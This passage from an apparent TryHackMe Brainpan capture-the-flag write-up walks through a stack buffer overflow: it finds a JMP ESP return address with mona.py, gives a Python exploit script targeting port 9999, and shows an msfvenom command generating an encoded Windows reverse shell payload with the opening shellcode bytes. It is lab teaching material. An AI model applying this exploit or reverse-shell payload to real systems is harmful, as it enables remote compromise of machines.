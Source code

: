 ![goodchar](/assets/images/brainpan/goodchar.png)

This looks like what I was expecting, I can see my offset and then each of the characters in the bad char list. Scanning through I don't see any more bad characters. I.e no other characters have malformed the output.

#### Find a Return Address

Our next step is to find a return address for our exploit. To do this I use the Immunity Debugger plugin mona.py plugin. Running '!mona modules' in the bottom bar of Immunity Debugger I can see all the modules used. I am looking for any module which has False displayed across columns as this means I don't need to worry about protection mechanisms. 

![monamodules](/assets/images/brainpan/monamodules.png)

Only one is available and its the brainpan.exe itself, now to check for JMP ESP pointers.  

![monafind](/assets/images/brainpan/monafind.png)

Again only one with the value 311712f3. x86 architectures stores values in memory using little endian which means we need to reverse the byte order when adding to our script.

Now I have a JMP ESP value I update the script.

{% highlight python %}
#!/usr/bin/python3

import sys, socket
from time import sleep

#badchars = /x00

filler = "A" * 524
EIP = "\xf3\x12\x17\x31" #JMP ESP - 311712f3
offset = "C" * 4
junk = "D" * (700 -len(filler)-len(EIP))
buffer = filler + EIP + offset + junk

try:
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("brainpan",9999))
    s.recv(1024)
    s.send(buffer + "\r\n")
    s.close()

except:
   print("Application crashed")
   sys.exit()
{% endhighlight %}

#### Create shell code

Nearly finished, the last step is to add our payload that will create a reverse shell to our machine. To do this I used msfvenom.

```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/Brainpan]
└──╼ $msfvenom -p windows/shell_reverse_tcp LHOST=VPN IP LPORT=4444 EXITFUNC=thread -f c -e x86/shikata_ga_nai -a x86 -b "\x00"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of c file: 1500 bytes
unsigned char buf[] = 
"\xba\xc3\x19\x14\x09\xdb\xc6\xd9\x74\x24\xf4\x58\x2b\xc9\xb1"
"\x52\x83\xe8\xfc\x31\x50\x0e\x03\x93\x17\xf6\xfc\xef\xc0\x74"
```